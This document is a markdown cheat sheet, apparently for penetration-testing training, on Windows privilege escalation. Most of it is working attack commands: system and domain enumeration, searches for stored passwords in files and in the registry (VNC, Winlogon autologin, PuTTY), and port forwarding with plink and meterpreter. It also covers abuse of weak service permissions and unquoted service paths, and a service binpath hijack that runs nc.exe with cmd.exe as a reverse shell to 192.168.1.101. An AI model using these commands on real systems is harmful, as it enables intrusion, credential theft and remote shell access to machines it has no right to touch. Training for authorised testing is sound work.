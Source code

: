# Windows Privilege Escalation

Condensed version of the checklist found on [Sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html). There is a plethora of ways to escalate privileges but I'm going to list the most common ways to escalate privileges (In my experience)

## Basic Enumeration/Kernel
```
# Basics
systeminfo
hostname

# Who am I?
whoami /all
echo %username%

# What users/localgroups are on the machine?
net users
net localgroups

# More info about a specific user. Check if user has privileges.
net user user1

# View Domain Groups
net group /domain

# View Members of Domain Group
net group /domain <Group Name>

# Firewall
netsh firewall show state
netsh firewall show config

# Network
ipconfig /all
route print
arp -A

# How well patched is the system?
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

## Passwords
### Search
```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

#Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
```

### In files
Common files (might be base-64 encoded)
```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
```

### In registry
```
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Inside service
Find any service that is running on the machine, that you can't access from the outside (compare with nmap scan)
```
netstat -ano
```
Look for **LISTENING/LISTEN**. If you find something, try port forwarding to access it.
```cmd
# Port forward using plink
plink.exe -l {USER} -pw {PASSWORD} 192.168.0.101 -R 8080:127.0.0.1:8080

# Port forward using meterpreter
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.1.101
```
### IP Addresses
**0.0.0.0** = All interfaces (World accessible)
**127.0.0.1** = Only local connections allowed (from the machine itself)
**192.168.X.X** = Anyone in the network can connect

## Scheduled Tasks
AKA Cronjobs in Linux
```
schtasks /query /fo LIST /v
```

## Change UPNp binary
```cmd
sc config upnphost binpath= "C:\Inetpub\nc.exe 192.168.1.101 6666 -e c:\Windows\system32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost depend= ""
```

## Weak Service Permissions
### WMCI
```cmd
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt

for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"
```
### sc.exe
```cmd
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt

FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt

FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt

FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```
```cmd
cacls "C:\path\to\file.exe"
```
#### Weaknesses
```
C:\path\to\file.exe 
BUILTIN\Users:F
BUILTIN\Power Users:C 
BUILTIN\Administrators:F 
NT AUTHORITY\SYSTEM:F
```
(F) and (C) rights indicate that group/user has write access

#### Restarting a service
```
wmic service NAMEOFSERVICE call startservice

or

net stop [service name] && net start [service name]
```

## Unquoted Service Paths
### Discover vulnerable services
```
# Using WMIC
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """

# Using sc
sc query
sc qc service name

# Look for Binary_path_name and see if it is unquoted.
```
If there's a space in the path without quotes, it's vulnerable

### Exploit
If binary is:
```
c:\Program Files\something\winamp.exe
```
Replace with:
```
c:\exploit.exe
```

## Vulnerable Drivers
```
# List all drivers
driverquery
```
